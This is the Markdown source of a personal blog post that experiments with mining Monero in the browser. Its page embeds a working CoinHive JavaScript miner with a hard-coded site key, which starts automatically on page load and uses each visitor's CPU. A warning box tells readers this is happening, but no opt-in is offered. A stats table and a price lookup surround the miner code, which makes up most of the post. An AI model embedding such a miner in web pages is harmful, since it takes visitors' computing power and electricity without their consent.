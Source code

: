 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>
___

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

Above you can see some basic statistics about the type of hashing power your CPU has.
I've hard coded the miner to only operate using 1 thread so it's not nearly as powerful as it could be.
